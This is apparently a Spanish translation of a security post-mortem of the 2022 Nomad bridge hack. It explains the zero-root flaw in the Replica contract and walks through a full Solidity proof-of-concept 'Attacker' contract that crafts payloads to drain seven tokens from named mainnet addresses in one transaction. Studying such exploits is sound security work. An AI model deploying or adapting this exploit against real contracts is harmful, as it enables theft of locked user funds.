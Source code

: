 # Debugging/Análisis OnChain de Transacciones: 7. Análisis de Hack: Puente Nomad (2022/08)

Autor: [gmhacker.eth](https://twitter.com/realgmhacker)

Traducción: [JP](https://x.com/CanonicalJP) 

Comunidad [Discord](https://discord.gg/Fjyngakf3h)

## Introducción
El puente Nomad fue hackeado el 1 de agosto de 2022, y se drenaron $190 millones de fondos bloqueados. Después de que un atacante lograra aprovechar la vulnerabilidad y diera en el blanco, otros viajeros del bosque oscuro se apresuraron a replicar el exploit en lo que eventualmente se convirtió en un hack colosal y "colaborativo".

Una actualización rutinaria en la implementación de uno de los contratos proxy de Nomad marcó un valor hash cero como una raíz confiable, lo que permitió que los mensajes se probaran automáticamente. El hacker aprovechó esta vulnerabilidad para suplantar el contrato del puente y engañarlo para que desbloqueara fondos.

Esa primera transacción exitosa por sí sola, que se puede ver [aquí](https://dashboard.tenderly.co/tx/mainnet/0xa5fe9d044e4f3e5aa5bc4c0709333cd2190cba0f4e7f16bcf73f49f83e4a5460), drenó 100 WBTC del puente, alrededor de $2.3 millones en ese momento. No hubo necesidad de un flash loan u otra interacción compleja con otro protocolo DeFi. El ataque simplemente llamó a una función en el contrato con el mensaje de entrada correcto, y el atacante continuó asestando golpes a la liquidez del protocolo.

Desafortunadamente, la naturaleza simple y repetible de la transacción llevó a otros a recolectar parte de la ganancia ilícita. Como [Rekt News](https://rekt.news/nomad-rekt/) lo expresó, "Manteniéndose fiel a los Principios DeFi, este hack fue sin permisos — cualquiera podía unirse".

En este artículo, analizaremos la vulnerabilidad explotada en el contrato Replica del puente Nomad, y luego crearemos nuestra propia versión del ataque para drenar toda la liquidez en una transacción, probándola contra una bifurcación local. Puedes revisar el PoC completo [aquí](https://github.com/immunefi-team/hack-analysis-pocs/tree/main/src/nomad-august-2022).

Este artículo fue escrito por [gmhacker.eth](https://twitter.com/realgmhacker), un Triager de Contratos Inteligentes de Immunefi.

## Antecedentes

Nomad es un protocolo de comunicación entre blockchains que permite, entre otras cosas, el puente de tokens entre Ethereum, Moonbeam y otras blockchains. Los mensajes enviados a los contratos de Nomad son verificados y transportados a otras blockchains a través de agentes off-chain, siguiendo un mecanismo de verificación optimista.

Como la mayoría de los protocolos de puente entre blockchains, el puente de tokens de Nomad es capaz de transferir valor a través de diferentes blockchains mediante un proceso de bloqueo de tokens en un lado y creación de tokens representativos en el otro. Debido a que esos tokens representativos pueden eventualmente ser quemados para desbloquear los fondos originales (es decir, volver a hacer puente a la blockchain nativa del token), funcionan como pagarés y tienen el mismo valor económico que los ERC-20 originales. Este aspecto de los puentes en general lleva a una gran acumulación de fondos dentro de un contrato inteligente complejo, convirtiéndolo en un objetivo muy deseado para los hackers.

<div align=center>
<img src="https://user-images.githubusercontent.com/107821372/217752487-9580592c-98ed-4690-b330-d211d795d276.png" alt="Cover" width="80%"/>
</div>

Proceso de bloqueo y creación, fuente: [Blog de MakerDAO](https://blog.makerdao.com/what-are-blockchain-bridges-and-why-are-they-important-for-defi/)

En el caso de Nomad, un contrato llamado `Replica`, que se despliega en todas las blockchains soportadas, es responsable de validar los mensajes en una estructura de árbol de Merkle. Otros contratos en el protocolo dependen de esto para la autenticación de mensajes entrantes. Una vez que un mensaje es validado, se almacena en el árbol de Merkle, generando una nueva raíz de árbol que se confirma para ser procesada.

## Causa Raíz

Teniendo una comprensión general de lo que es el puente Nomad, podemos profundizar en el código real del contrato inteligente para explorar la vulnerabilidad de causa raíz que se aprovechó en las diversas transacciones del hack de agosto de 2022. Para hacer esto, necesitamos adentrarnos más en el contrato `Replica`.

```solidity
   function process(bytes memory _message) public returns (bool _success) {
       // ensure message was meant for this domain
       bytes29 _m = _message.ref(0);
       require(_m.destination() == localDomain, "!destination");
       // ensure message has been proven
       bytes32 _messageHash = _m.keccak();
       require(acceptableRoot(messages[_messageHash]), "!proven");
       // check re-entrancy guard
       require(entered == 1, "!reentrant");
       entered = 0;
       // update message status as processed
       messages[_messageHash] = LEGACY_STATUS_PROCESSED;
       // call handle function
       IMessageRecipient(_m.recipientAddress()).handle(
           _m.origin(),
           _m.nonce(),
           _m.sender(),
           _m.body().clone()
       );
       // emit process results
       emit Process(_messageHash, true, "");
       // reset re-entrancy guard
       entered = 1;
       // return true
       return true;
   }
```

<div align=center>

Fragmento 1: función `process` en Replica.sol, ver [raw](https://gist.github.com/gists-immunefi/f8ef00be9e1c5dd4d879a418966191e0#file-nomad-hack-analysis-1-sol).

</div>

La [función](https://etherscan.io/address/0xb92336759618f55bd0f8313bd843604592e27bd8#code%23F1%23L179) `process` en el contrato `Replica` es responsable de enviar un mensaje a su destinatario final. Esto solo tendrá éxito si el mensaje de entrada ya ha sido probado, lo que significa que el mensaje ya ha sido añadido al árbol de Merkle, llevando a una raíz aceptada y confiable. Esa verificación se realiza contra el hash del mensaje, usando la función `acceptableRoot`, que leerá del mapeo de raíces confirmadas.

```solidity
   function initialize(
       uint32 _remoteDomain,
       address _updater,
       bytes32 _committedRoot,
       uint256 _optimisticSeconds
   ) public initializer {
       __NomadBase_initialize(_updater);
       // set storage variables
       entered = 1;
       remoteDomain = _remoteDomain;
       committedRoot = _committedRoot;
       // pre-approve the committed root.
       confirmAt[_committedRoot] = 1;
       _setOptimisticTimeout(_optimisticSeconds);
   }
```

<div align=center>

Fragmento 2: función `initialize` en Replica.sol, ver [raw](https://gist.github.com/gists-immunefi/4792c4bb10d3f73648b4b0f86e564ac9#file-nomad-hack-analysis-2-sol).

</div>

Cuando ocurre una actualización en la implementación de un contrato proxy dado, la lógica de actualización puede ejecutar una función de inicialización de una sola llamada. Esta función establecerá algunos valores de estado iniciales. En particular, se realizó una [actualización rutinaria el 21 de abril](https://openchain.xyz/trace/ethereum/0x99662dacfb4b963479b159fc43c2b4d048562104fe154a4d0c2519ada72e50bf), y el valor 0x00 se pasó como la raíz pre-aprobada, que se almacena en el mapeo `confirmAt`. Aquí es donde apareció la vulnerabilidad.

Volviendo a la función `process()`, vemos que dependemos de verificar un hash de mensaje en el mapeo `messages`. Ese mapeo es responsable de marcar los mensajes como procesados, para que los atacantes no puedan reproducir el mismo mensaje.

Un aspecto particular del almacenamiento de contratos inteligentes EVM es que todos los slots se inicializan virtualmente como valores cero, lo que significa que si uno lee un slot no utilizado en el almacenamiento, no generará una excepción sino que devolverá 0x00. Un corolario de esto es que cada clave no utilizada en un mapeo de Solidity devolverá 0x00. Siguiendo esa lógica, siempre que el hash del mensaje no esté presente en el mapeo `messages`, se devolverá 0x00, y eso se pasará a la función `acceptableRoot`, que a su vez devolverá true dado que 0x00 se ha establecido como una raíz confiable. El mensaje se marcará entonces como procesado, pero cualquiera puede simplemente cambiar el mensaje para crear uno nuevo no utilizado y volver a enviarlo.

El mensaje de entrada codifica varios parámetros diferentes en un formato dado. Entre ellos, para que un mensaje desbloquee fondos del puente, está la dirección del destinatario. Así que después de que el primer atacante ejecutó una [transacción exitosa](https://dashboard.tenderly.co/tx/mainnet/0xa5fe9d044e4f3e5aa5bc4c0709333cd2190cba0f4e7f16bcf73f49f83e4a5460), cualquiera que supiera cómo decodificar el formato del mensaje podía simplemente cambiar la dirección del destinatario y reproducir la transacción de ataque, esta vez con un mensaje diferente que daría beneficios a la nueva dirección.

## Prueba de Concepto

Ahora que entendemos la vulnerabilidad que comprometió el protocolo Nomad, podemos formular nuestra propia prueba de concepto (PoC). Crearemos mensajes específicos para llamar a la función `process` en la función `Replica` una vez por cada token específico que queremos drenar, llevando a la insolvencia del protocolo en una sola transacción.

Comenzaremos seleccionando un proveedor RPC con acceso de archivo. Para esta demostración, usaremos [el agregador RPC público gratuito](https://www.ankr.com/rpc/eth/) proporcionado por Ankr. Seleccionamos el número de bloque 15259100 como nuestro bloque de bifurcación, 1 bloque antes de la primera transacción del hack.

Nuestro PoC necesita ejecutar una serie de pasos en una sola transacción para tener éxito. Aquí hay una visión general de alto nivel de lo que implementaremos en nuestro PoC de ataque:

1. Seleccionar un token ERC-20 dado y verificar el saldo del contrato puente ERC-20 de Nomad.
2. Generar un payload de mensaje con los parámetros correctos para desbloquear fondos, entre los cuales está nuestra dirección de atacante como destinatario y el saldo total de tokens como la cantidad de fondos a desbloquear.
3. Llamar a la función `process` vulnerable, lo que llevará a una transferencia de tokens a la dirección del destinatario.
4. Recorrer varios tokens ERC-20 con una presencia relevante en el saldo del puente para drenar esos fondos de la misma manera.

Vamos a codificar un paso a la vez, y eventualmente veremos cómo se ve el PoC completo. Usaremos Foundry.

## El Ataque

```solidity
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = IERC20(token).balanceOf(ERC20_BRIDGE);
 
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory) {}
}
```

<div align=center>

Fragmento 3: El inicio de nuestro contrato de ataque, ver [raw](https://gist.github.com/gists-immunefi/4305df38623ddcaa11812a9c186c73ac#file-nomad-hack-analysis-3-sol).

</div>

Comencemos creando nuestro contrato Attacker. El punto de entrada a nuestro contrato será la función `attack`, que es tan simple como un bucle for que recorre varias direcciones de tokens diferentes. Verificamos el saldo de `ERC20_BRIDGE` del token específico con el que estamos tratando. Esta es la dirección del contrato puente ERC-20 de Nomad, que mantiene los fondos bloqueados en Ethereum.

Después de eso, se genera el payload del mensaje malicioso. Los parámetros que cambiarán en cada iteración del bucle son la dirección del token y la cantidad de fondos a transferir. El mensaje generado será la entrada para la función `IReplica.process`. Como ya establecimos, esta función enviará el mensaje codificado al contrato final correcto en el protocolo Nomad para llevar a cabo la solicitud de desbloqueo y transferencia, engañando efectivamente a la lógica del puente.

```solidity
contract Attacker {
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),            // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),        // Recipient of the transfer
           uint256(amount),                    // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```

<div align=center>

Fragmento 4: Generar el mensaje malicioso con el formato y parámetros correctos, ver [raw](https://gist.github.com/gists-immunefi/2a5fbe2e6034dd30534bdd4433b52a29#file-nomad-hack-analysis-4-sol).

</div>

El mensaje generado necesita ser codificado con varios parámetros diferentes, para que sea desempaquetado correctamente por el protocolo. Es importante especificar la ruta de reenvío del mensaje — las direcciones del router del puente y del puente ERC-20. Debemos marcar el mensaje como una transferencia de token, de ahí el valor `0x3` como tipo.

Finalmente, tenemos que especificar los parámetros que nos traerán el beneficio — la dirección correcta del token, la cantidad a transferir y el destinatario de esa transferencia. Como ya hemos visto, esto seguramente creará un mensaje original completamente nuevo que nunca habrá sido procesado por el contrato `Replica`, lo que significa que en realidad será visto como válido, según nuestra explicación anterior.

Bastante impresionante, esto completa toda la lógica del exploit. Si tuviéramos algunos registros de Foundry, nuestro PoC aún sumaría solo 87 líneas de código.

Si ejecutamos este PoC contra el número de bloque bifurcado, obtendremos los siguientes beneficios:

* 1,028 WBTC
* 22,876 WETH
* 87,459,362 USDC
* 8,625,217 USDT
* 4,533,633 DAI
* 119,088 FXS
* 113,403,733 CQT

## Conclusión

El exploit del Puente Nomad fue uno de los mayores hacks de 2022. El ataque enfatiza la importancia de la seguridad en todo el protocolo. En este caso particular, hemos aprendido cómo una sola actualización rutinaria en una implementación de proxy puede causar una vulnerabilidad crítica y comprometer todos los fondos bloqueados. Además, durante el desarrollo, uno debe tener cuidado con los valores predeterminados 0x00 en los slots de almacenamiento, especialmente en la lógica que involucra mapeos. También es bueno tener alguna configuración de pruebas unitarias para tales valores comunes que podrían llevar a vulnerabilidades.

Cabe señalar que algunas cuentas de carroñeros que drenaron porciones de los fondos los devolvieron al protocolo. Hay [planes para relanzar el puente](https://medium.com/nomad-xyz-blog/nomad-bridge-relaunch-guide-3a4ef6624f90), y los activos devueltos se distribuirán a los usuarios a través de acciones proporcionales de esos fondos recuperados. Cualquier fondo robado puede ser devuelto a la [cartera de recuperación](https://etherscan.io/address/0x94a84433101a10aeda762968f6995c574d1bf154) de Nomad.

Como se señaló anteriormente, este PoC en realidad mejora el hack y drena todo el TVL en una transacción. Es un ataque más simple que lo que realmente ocurrió en la realidad. Así es como se ve nuestro PoC completo, con la adición de algunos logs útiles de Foundry:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
import "forge-std/console.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = ERC20(token).balanceOf(ERC20_BRIDGE);
 
           console.log(
               "[*] Stealing",
               amount_bridge / 10**ERC20(token).decimals(),
               ERC20(token).symbol()
           );
           console.log(
               "    Attacker balance before:",
               ERC20(token).balanceOf(msg.sender)
           );
 
           // Generate the payload with all of the tokens stored on the bridge
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
 
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
 
           console.log(
               "    Attacker balance after: ",
               IERC20(token).balanceOf(msg.sender) / 10**ERC20(token).decimals()
           );
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),          // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),      // Recipient of the transfer
           uint256(amount),                  // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```

<div align=center>

Fragmento 5: todo el código, ver [raw](https://gist.github.com/gists-immunefi/2bdffe6f9683c9b3ab810e1fb7fe4aff#file-nomad-hack-analysis-5-sol).

</div>
